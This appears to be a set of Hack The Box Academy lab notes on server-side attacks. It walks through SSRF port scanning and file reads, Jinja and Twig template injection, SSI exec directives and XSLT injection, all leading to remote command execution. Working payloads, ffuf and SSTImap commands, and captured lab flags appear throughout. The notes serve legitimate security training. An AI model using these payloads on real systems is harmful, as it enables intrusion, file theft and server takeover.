# Server Side Attacks

This document summarizes core techniques for identifying and exploiting **server-side vulnerabilities**. It is intended as a practical, hands-on reference rather than an exhaustive theoretical guide.

---

## Table of Contents

- [Server Side Attacks](#server-side-attacks)
  - [Overview](#overview)
  - [Server-Side Request Forgery (SSRF)](#server-side-request-forgery-ssrf)
    - [SSRF - Internal Port Scanning](#ssrf---internal-port-scanning)
    - [SSRF - Accessing Restricted Endpoints](#ssrf---accessing-restricted-endpoints)
    - [SSRF - Local File Inclusion (LFI)](#ssrf---local-file-inclusion-lfi)
    - [Blind SSRF](#blind-ssrf)
  - [Server-Side Template Injection (SSTI)](#server-side-template-injection-ssti)
    - [SSTI Discovery](#ssti-discovery)
    - [Exploiting SSTI - Jinja](#exploiting-ssti---jinja)
    - [Exploiting SSTI - Twig](#exploiting-ssti---twig)
    - [Automating SSTI Discovery and Exploitation](#automating-ssti-discovery-and-exploitation)
  - [Server-Side Includes (SSI)](#server-side-includes-ssi)
    - [Exploiting SSI](#exploiting-ssi)
  - [Extensible Stylesheet Language Transformations (XSLT)](#extensible-stylesheet-language-transformations-xslt)
    - [Exploiting XSLT](#exploiting-xslt)
  - [Server Side Exploitation - Walkthrough](#server-side-exploitation---walkthrough)

---

## Overview

Server-side attacks target vulnerabilities in applications or services running on the server itself. Unlike client-side attacks (such as XSS), these issues can directly impact backend systems, internal services, and sensitive infrastructure.

Common server-side vulnerabilities include:

- Server-Side Request Forgery (SSRF)
- Server-Side Template Injection (SSTI)
- Server-Side Includes (SSI) Injection
- XSLT (eXtensible Stylesheet Language Transformations) Injection

---

## Server-Side Request Forgery (SSRF)

SSRF vulnerabilities arise when an application fetches remote resources based on **user-supplied input**, typically URLs. If input validation is insufficient, an attacker may coerce the server into making arbitrary requests, including requests to:

- Attacker-controlled servers
- Internal network services
- Localhost interfaces
- Cloud metadata endpoints

If the application allows user-controlled URL schemes or protocols, exploitation may extend beyond `HTTP(S)`. 

Commonly abused schemes include:

- `http://` and `https://`
- `file://`
- `gopher://`

---

### SSRF - Internal Port Scanning

The target application provides an appointment scheduling feature.


After scheduling an appointment and intercepting the request in `Burp Suite`, we identify a POST parameter named `dateserver`. Its value is a URL, indicating that the backend fetches data from a remote resource.

```
dateserver=http://dateserver.htb/availability.php&date=2025-09-02
```



To confirm SSRF, we supply a URL pointing to a server **under our control** and listen for incoming connections:

```bash
nc -lvnp 8001
```

```bash
dateserver=http://10.10.15.190:8001/ssrf&date=2025-09-02
```



The incoming request confirms that the application is vulnerable to SSRF.

We will attempt an internal port scan of the server. But before doing so, we need to understand how the application responds to **closed ports**, so we can filter them out during fuzzing.

We instruct the server to connect to **itself** on a likely closed port:

```bash
dateserver=http://127.0.0.1:81&date=2025-09-02
```

The application responds with an error message:

```
Failed to connect to 10.129.144.135 port 81 ...
```



This message will be used as a filter during fuzzing.

We create a simple wordlist containing the first 10,000 ports:

```bash
seq 1 10000 > ports.txt
```

Using `ffuf`, we fuzz the `dateserver` parameter to identify open internal ports while filtering out closed-port responses:

```bash
ffuf -w ports.txt:FUZZ -u http://10.129.144.135/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2025-09-02" -fr "Failed to connect to"
```

The scan reveals three open internal ports:

- `80`
- `3306`
- `8000`


When directing the application to the service running on port `8000`, we successfully retrieve the flag:

```bash
dateserver=http://127.0.0.1:8000&date=2025-09-02
```

```
HTB{911fc5badf7d65aed95380d536c270f8}
```



---

### SSRF - Accessing Restricted Endpoints

We continue working with the application from the previous section. This time, the goal is to leverage the confirmed SSRF vulnerability to enumerate **restricted or hidden internal endpoints**.

Before fuzzing, it is important to understand how the application responds to non-existent resources, so we can reliably distinguish valid endpoints from invalid ones during enumeration.

We request a directory that is unlikely to exist:

```bash
dateserver=http://dateserver.htb/invalid&date=2025-09-02
```


The server responds with a standard `404 Not Found` error. 


This response will serve as our baseline and can be filtered out during fuzzing to reduce noise.

With the baseline established, we use `ffuf` to fuzz potential endpoint names through the vulnerable `dateserver` parameter. The application appends `.php`, so the wordlist entries are used accordingly.

We filter out responses that match the known `404` behavior and irrelevant word counts:

```bash
ffuf -w directory-list-2.3-small.txt:FUZZ -u http://110.129.153.47/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2025-09-02" -fr 404 -fw 3,23 -ic
```

The scan reveals two valid internal endpoints:

- `admin`
- `availability`


We direct the application to the `admin.php` endpoint via the SSRF parameter:

```bash
dateserver=http://dateserver.htb/admin.php&date=2025-09-02
```


The request succeeds, and the application returns the flag:

```bash
HTB{61ea58507c2b9da30465b9582d6782a1}
```


---

### SSRF - Local File Inclusion (LFI)

If an application allows **user-controlled URL schemes**, SSRF vulnerabilities can sometimes be escalated to **Local File Inclusion (LFI)**. This occurs when the server-side request mechanism accepts non-HTTP schemes, such as `file://`, enabling direct access to files on the local filesystem.

In this scenario, the `dateserver` parameter accepts a full URL and does not enforce strict scheme validation. This allows us to replace the original `http://` scheme with `file://` and attempt to read sensitive files from the server.

As an initial test, we attempt to read the standard Linux `/etc/passwd` file:

```bash
dateserver=file:///etc/passwd&date=2025-09-02
```


The server responds with the contents of `/etc/passwd`, confirming that:

- The application permits the `file://` URL scheme
- The server-side process has read access to local system files
- The SSRF vulnerability can be leveraged for arbitrary file reads


At this point, the impact of the vulnerability increases significantly. Depending on permissions and system configuration, this technique may allow attackers to read:

- Application source code
- Configuration files containing credentials or API keys
- Logs containing sensitive data
- SSH keys or environment variables

This highlights why SSRF vulnerabilities should be treated as **high severity**, especially when URL scheme validation and outbound request restrictions are not properly enforced.

---

### Blind SSRF

In some cases, the response to an SSRF payload is **not returned to the attacker**. These vulnerabilities are referred to as **blind SSRF**. While blind SSRF generally limits direct data exfiltration, it can still be leveraged for **internal network enumeration**, service discovery, and attack surface mapping.

As with standard SSRF, blind SSRF is initially identified by supplying a URL that points to a server under the attacker’s control.

```bash
nc -lvnp 8001
```

```bash
dateserver=htp://10.10.14.137:8001/ssrf&date=2026-01-01
```



Receiving a connection confirms that the application is making outbound requests based on user-controlled input, and therefore is vulnerable to SSRF.

When directing the application to request its own content, no response body is returned to the user. Instead, a generic message is displayed:

```bash
dateserver=http://127.0.0.1:80&date=2026-01-01
```

```
Date is unavailable. Please choose a different date!
```



However, when the application is pointed to a closed port, the response differs:

```bash
dateserver=http://127.0.0.1:81&date=2026-01-01
```

```
Something went wrong!
```


The difference in responses between open and closed ports indicates that, despite being blind, the SSRF vulnerability can still be exploited as an **oracle** to infer internal network state.

To enumerate internal services, we first generate a list of candidate ports:

```bash
seq 1 10000 > ports.txt
```

Using `ffuf`, we fuzz the `dateserver` parameter while filtering out responses associated with closed ports:

```bash
ffuf -w ports.txt:FUZZ -u http://10.129.129.65/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2026-01-01" -fr "Something went wrong"
```

The scan reveals two open internal ports:

- `80`
- `5000`



Although blind SSRF prevents direct response inspection, it can still be used to:

- Enumerate open internal ports
- Identify internal services and applications
- Infer file existence or service behavior based on response differences
- Gather intelligence for chaining into higher-impact attacks

Even limited SSRF findings should be treated seriously, as they often act as stepping stones toward deeper compromise.

---

## Server-Side Template Injection (SSTI)

A **template engine** is software used by web applications to generate dynamic content by combining static templates with runtime data. This allows developers to reuse common components (such as headers, footers, or layouts) while dynamically rendering page-specific content.

Common template engines include:

- `jinja` (Python / Flask Django)
- `twig` (PHP / Symfony)

Templates can be defined as files or inline strings and typically contain placeholders where dynamic values are inserted. These values are supplied as key–value pairs during rendering.

For example, the following template contains a variable called `name`, which is replaced with a dynamic value at runtime:

```jinja
Hello {{ name }}
```

If the application renders this template with `name="Sam"`, the resulting output will be:

```
Hello Sam
```

Modern template engines support more advanced features such as loops, conditionals, and expressions, making them effectively small domain-specific programming languages. For example:

```jinja

Hello {{ name }}!

```

If the template is rendered with:

```jinja
names = ["sam", "cibola", "hackerman"]
```

The output will be:

```
Hello sam!
Hello cibola!
Hello hackerman!
```

**Server-Side Template Injection (SSTI)** vulnerabilities occur when user-controlled input is embedded directly into a template and rendered by the server **without proper sanitization**. In such cases, an attacker can inject template syntax that is interpreted and executed by the template engine. 

Depending on the engine and configuration, successful SSTI exploitation may allow an attacker to:

- Read sensitive server-side data
- Access application configuration and environment variables
- Perform arbitrary file reads
- Achieve remote code execution (RCE)

Because template rendering occurs **server-side**, SSTI vulnerabilities are often high-impact and may lead to full system compromise.

---

 ### SSTI Discovery

Each template engine uses slightly different syntax. As a result, the first step in exploiting an SSTI vulnerability is **fingerprinting the template engine** used by the application.

The discovery process closely resembles other injection-based vulnerabilities (such as SQL injection or command injection): we inject input containing special characters with semantic meaning in template engines and observe how the application responds.

A commonly used probe string containing syntax elements from multiple popular template engines is:

```
${{<%[%'"}}%\.
```

If the application is vulnerable to SSTI, injecting this string will typically cause a template parsing error, as it violates expected syntax rules.

When injecting the probe string into the target application we receive an `Internal Server Error`.



This increases the likelihood of the target being vulnerable to SSTI.

When interacting with the target application, we are prompted to enter a name:

```
Enter your name:
```


When entering a name, for example `Sam`, the name is reflected back to us:

```
Hi Sam!
```


Because the response dynamically incorporates user input, we can infer that the application is rendering content using a template engine. This makes the application a strong candidate for SSTI testing.

The following decision tree is commonly used to identify the underlying template engine based on payload behavior:



We begin with a simple arithmetic expression commonly supported by many template engines:

```
${7*7}
```

The payload is reflected verbatim in the response:

```
Hi ${7*7}!
```


Since the expression was not evaluated, we follow the red path in the decision tree and test the next payload:

```
{{7*7}}
```

This time, the payload is evaluated by the server:

```
Hi $49!
```


Because the expression was executed, we proceed along the green path and test a payload that behaves differently depending on the template engine:

```
{{7*'7'}}
```

The result is again:

```
Hi $49!
```


This behavior allows us to distinguish between common engines:

- Jinja evaluates `7 * '7'` as string multiplication &rarr; `7777777`
- Twig evaluates it as numeric multiplication &rarr; `49`

Since the result is `49`, we can confidently conclude that the target application is using the `Twig` template engine.

---

### Exploiting SSTI - Jinja

The `Jinja` template engine is commonly used in Python-based web frameworks such as `Flask` and `Django`. When an application is vulnerable to SSTI, injected template expressions are evaluated server-side, allowing attackers to access internal objects, application configuration, and—in severe cases—achieve remote code execution (RCE).

`Jinja` templates execute within the context of the running Python application. As a result, injected payloads can often access:

- Application configuration
- Python built-in functions
- Imported standard libraries
- Arbitrary file system objects
- Operating system commands

A common first step is enumerating application configuration values. `Jinja` exposes the config object in many Flask-based applications. This may reveal sensitive information such as secret keys, database credentials, or debug settings:

```jinja
{{ config.items() }}
```



`Jinja` templates provide access to internal Python objects. The following payload enumerates all available built-in functions. This output often includes functions such as `open`, `eval`, `exec`, and `__import__`, which can be leveraged for further exploitation:

```jinja
{{ self.__init__.__globals__.__builtins__ }}
```



If the `open()` function is accessible, attackers can read arbitrary files from the server:

```jinja
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```



This confirms file system access and significantly increases the impact of the vulnerability.

The Python `os` module provides functions such as `system()` and `popen()` that allow execution of operating system commands. If the module is not already imported, it can often be loaded dynamically using `__import__`. This payload executes the `id` command on the server and returns its output:

```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```


Once command execution is confirmed, arbitrary commands can be executed, such as reading sensitive files:

```jinja
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```


---

### Exploiting SSTI - Twig

`Twig` is a server-side template engine commonly used in `PHP` applications, most notably with the `Symfony` framework. When a `Twig` template renders user-controlled input without proper sanitization, an attacker may be able to inject and execute `Twig` expressions on the server.

A simple starting point when exploiting `Twig` SSTI is dumping contextual information about the current template. The `_self` keyword references the current template object and can reveal useful metadata:

```twig
{{ _self }}
```


This output can help confirm execution context and provide insight into the template structure.

Unlike `Jinja`, `Twig` does not natively expose powerful file-handling primitives. However, `Symfony` extends `Twig` with additional filters, some of which can be abused to read local files.

One such filter is `file_excerpt`, which can be used to extract file contents. 

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```



This payload reads the contents of `/etc/passwd`, confirming local file inclusion via the template engine.

`Twig` itself is not inherently dangerous, but when combined with `PHP` built-in functions, it can lead to remote code execution.

The following payload leverages Twig’s `filter()` function to call PHP’s `system()` function:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```


In this case, the command is executed on the server, and its output is rendered in the response, confirming full RCE via `Twig` SSTI.

---

### Automating SSTI Discovery and Exploitation

When manual testing becomes time-consuming or when dealing with complex applications, automated tools can assist with identifying and exploiting SSTI vulnerabilities. One such tool is `SSTImap`, which supports fingerprinting multiple template engines and automating common exploitation techniques.

Clone the repository and install the required dependencies:

```bash
git clone https://github.com/vladko312/SSTImap
cd SSTImap
pip3 install -r requirements.txt
```

The following example demonstrates `SSTImap` analyzing a GET parameter to identify the template engine and detect potential SSTI vulnerabilities:

```bash
python3 sstimap.py -u http://94.237.60.55:49043/index.php?name=test
```



In this case, `SSTImap` successfully identifies the template engine as `Twig` and reports several exploitable primitives, including `file read` and `file write` capabilities.

The `-D` flag allows `SSTImap` to read files from the target system and download them locally:

```bash
python3 sstimap.py -u http://94.237.60.55:49043/index.php?name=test -D '/etc/passwd' './passwd'
```

This confirms local file disclosure through the SSTI vulnerability.

The `-S` flag can be used to execute arbitrary system commands on the target:

```bash
python3 sstimap.py -u http://94.237.60.55:49043/index.php?name=test -S id
```


This demonstrates remote code execution (RCE) via the SSTI vulnerability.

For deeper post-exploitation, `STImap` supports spawning an interactive shell using the `--os-shell` flag:

```bash
python3 sstimap.py -u http://94.237.60.55:49043/index.php?name=test --os-shell
```



This allows direct interaction with the underlying operating system, confirming full compromise of the template rendering context.

---

## Server-Side Includes (SSI)

Server-Side Includes (SSI) are a mechanism for embedding dynamic content into otherwise static HTML pages. SSI is supported by many common web servers, including `Apache` and `IIS`, and is processed on the server before the response is sent to the client.

SSI usage can sometimes be inferred from file extensions commonly associated with SSI processing:

- `.shtml`
- `.shtm`
- `.sht`

However, file extensions alone are **not a reliable indicator**. Web servers can be configured to process SSI directives in files with arbitrary extensions (including `.html`), so further testing is often required to confirm SSI support.

SSI relies on **directives** to perform dynamic operations. Each directive consists of:

- A directive **name**
- One or more **parameters**
- Corresponding **parameter values**

The general syntax of an SSI directive is:

```ssi
<!--#name param1="value1" param2="value" -->
```

The `printenv` directive prints all environment variables available to the web server process.

```ssi
<!--#printenv -->
```

The `config` directive modifies SSI configuration options. The example below customizes the error message returned by SSI:

```ssi
<!--#config errmsg="Error!" -->
```

The `echo` directive outputs the value of a specified environment variable using the `var` parameter.

```bash
# Name of current file
<!--#echo var="DOCUMENT_NAME" -->
```

```bash
# Local server time
<!--#echo var="DATE_LOCAL" -->
```

```bash
# The current file's URI
<!--#echo var="DOCUMENT_URI" -->
```

```bash
# Timestamp of last modification of current file
<!--#echo var="LAST_MODIFIED" -->
```

```bash
# Multiple variable assignments
<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" var="DOCUMENT_URI" -->
```

The `exec` directive executes system commands on the server. This directive is the **most security-critical**, as it can lead directly to remote code execution (RCE).

```bash
<!--#exec cmd="whoami" -->
```

```bash
<!--#exec cmd="cat /etc/passwd" -->
```

The `include` directive includes the contents of another file into the current page. The included file must be accessible within the web root.

```bash
<!--#include virtual="index.html" -->
```

An **SSI injection vulnerability** occurs when an attacker can inject SSI directives into a file that is later parsed by the web server with SSI enabled. If successful, the injected directive will be executed server-side, potentially resulting in:

- Disclosure of sensitive environment variables
- Local file inclusion (LFI)
- Arbitrary command execution (RCE)

SSI injection vulnerabilities are especially dangerous when user-controlled input is written to files that are later rendered by the server without proper sanitization.

---

### Exploiting SSI

When visiting the target application, we are prompted to enter a name:

```
Enter your name:
```



After submitting a name, we are redirected to a page with the `.shtml` extension:

```
http://83.136.250.201:58497/page.shtml
```


The `.shtml` extension suggests that SSI processing may be enabled. To test for an SSI vulnerability, we inject a basic SSI directive into the input field:

```
<!--#printenv -->
```

If the application is vulnerable, the directive is executed by the server. In this case, all environment variables are printed to the page, confirming the presence of an SSI injection vulnerability:



To demonstrate impact, we leverage the `exec` directive to execute a system command and read the contents of `/etc/passwd`:

```
<!--#exec cmd="cat /etc/passwd" -->
```


This confirms that arbitrary command execution is possible through SSI injection.

---

## Extensible Stylesheet Language Transformations (XSLT)

Extensible Stylesheet Language Transformations (XSLT) is a language used to transform XML documents into other formats, such as XML, HTML, or plain text. It is commonly used to extract specific nodes from an XML document, rearrange data, or alter the structure of the output.

A typical XML document may look like the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<fruits>
    <fruit>
        <name>Apple</name>
        <color>Red</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Banana</name>
        <color>Yellow</color>
        <size>Medium</size>
    </fruit>
    <fruit>
        <name>Strawberry</name>
        <color>Red</color>
        <size>Small</size>
    </fruit>
</fruits>
```

XSLT documents are structured similarly to XML documents, but include XSL-specific elements prefixed with `xsl`:. These elements define how the XML data should be processed and transformed.

```xml
<!-- XML element -->
<name>Banana</name>

<!-- XSL element -->
<xsl:for-each select="fruit">
			<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
</xsl:for-each>
```

Some commonly used XSL elements include:

- <xsl:template> ... </xsl:template>
- <xsl:value-of> ... </xsl:value-of>
- <xsl:for-each> ... </xsl:for-each>

The following XSLT document extracts the name and color of all fruits from the XML document:

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all the fruits:
		<xsl:for-each select="fruit">
			<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
```

- The `<xsl:template>` element defines a template that applies to a specific XML node.
- The `match` attribute specifies which node in the XML document the template applies to (in this case, `<fruits>`).
- The `<xsl:for-each>` element iterates over all `<fruit>` nodes.
- The `<xsl:value-of>` element extracts and outputs the value of the specified XML node.

Applying this XSLT document to the sample XML produces the following output:

```
Here are all the fruits:
    Apple (Red)
    Banana (Yellow)
    Strawberry (Red)
```

Two additional XSL elements that are commonly used are:

- <xsl:sort />
- <xsl:if> ... </xsl:if>

The `<xsl:sort>` element defines how elements should be ordered during iteration, using the `select` and `order` attributes.

The `<xsl:if>` element allows conditional logic based on expressions defined in the test attribute.

The following example filters fruits by size and sorts them by color in descending order:

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all fruits of medium size ordered by their color:
		<xsl:for-each select="fruit">
			<xsl:sort select="color" order="descending" />
			<xsl:if test="size = 'Medium'">
				<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
			</xsl:if>
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
```

This produces the following output:

```
Here are all fruits of medium size ordered by their color:
	Banana (Yellow)
	Apple (Red)
```

An XSLT injection vulnerability occurs when user-controlled input is inserted into an XSLT document before it is processed by the XSLT engine. This allows an attacker to inject arbitrary XSL elements, which are then executed by the XSLT processor. Depending on the implementation, this can lead to sensitive data disclosure or, in some cases, remote code execution.

---

### Exploiting XSLT

The target application displays basic information about various Hack The Box Academy modules.



At the bottom of the page, the user is prompted to provide a name, which is then incorporated into the page header:

```
Please provide your name to customize your list:
```


The supplied name is reflected at the top of the page:

```
Hi Sam, here are your favorite Academy modules:
```


If the application stores module data in an XML document and renders it using XSLT, user-controlled input embedded into the XSL template may result in an XSLT injection vulnerability.

To test for XSLT injection, we inject a malformed XML character (`<`) to intentionally break the XML structure:

```bash
94.237.56.99:33204/index.php?name=<
```

The application responds with a `500 Internal Server Error`. While this behavior alone does not conclusively prove XSLT injection, it strongly suggests that user input is being processed by an XML/XSLT parser.

XSLT provides the `system-property()` function, which can be used to extract information about the underlying XSLT processor. The following payloads are useful for reconnaissance:

```xml
<xsl:value-of select="system-property('xsl:version')" />
```

```xml
<xsl:value-of select="system-property('xsl:vendor')" />
```

```xml
<xsl:value-of select="system-property('xsl:vendor-url')" />
```

```xml
<xsl:value-of select="system-property('xsl:product-name')" />
```

```xml
<xsl:value-of select="system-property('xsl:product-version')" />
```

These values can be combined into a single payload for convenience:

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```


The response confirms that the application is vulnerable to XSLT injection and reveals that it uses the `libxslt` processor with XSLT version `1.0`.

Several functions can be used to read local files, depending on the XSLT version and processor configuration. The `unparsed-text()` function is commonly used for this purpose:

```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

However, this function was introduced in XSLT `2.0` and is therefore unavailable in this environment.

If PHP function support is enabled (a common misconfiguration when using `libxslt` with PHP), we can instead leverage PHP’s `file_get_contents()` function:

```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```



This confirms successful local file inclusion and further validates that PHP functions are accessible from within the XSLT context.

Since arbitrary PHP functions are allowed, we can escalate from file disclosure to remote code execution by invoking the `system()` function:

```xml
<xsl:value-of select="php:function('system','ls -la')" />
```

